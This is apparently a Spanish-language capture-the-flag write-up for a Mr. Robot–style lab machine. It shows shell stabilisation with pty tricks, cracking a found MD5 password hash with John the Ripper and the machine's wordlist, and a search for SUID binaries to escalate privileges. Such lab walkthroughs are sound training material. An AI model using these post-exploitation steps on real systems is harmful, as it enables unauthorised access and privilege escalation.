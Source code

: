 ##### vamos hacer un tratamiento tty para que nuestra consola se vea un poco mejor:

```python
		script /dev/null -c bash 
```

### nos movemos hasta el escritorio, vemos dentro del directorio robot tenemos dos archivos, key-2-of-3.txt y password.raw-md5 parece que no tenemos permisos para abrir el archivo key-2-of-3.txt pero si podemos ver el password.raw-md5 el cual ya nos dice que esta encodeado en formato MD5

```python
	c3fcd3d76192e4007dfb496cca67e13b
```

### podemos usar JohnTheRipper para intentar desencodear este archivo

```python
sudo john pass.hash --wordlist=fsociety.dic_nuevo --format=Raw-MD5
```

![img](/assets/img/imagenes/2023-10-29_03-18 1.png)

### guardamos esto en un archivo y lo vamos a transformar en minusculas que es lo mas probable. de igual forma tenemos que probar las dos opciones.

pasamos el codigo a minisculas
```python
tr '[:upper:]' '[:lower:]' < nuevo.hash > nuevo_minusculas.hash
```

## hacemos tratamiento de tty
cuando hacemos tratamiento de tty con el comando script /dev/null -c bash nos da problemas asi que usaremos este: 
```python
	python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### escalada de privilegios
Permisos SUID
```python
	find / -perm -4000 2>/dev/null
```
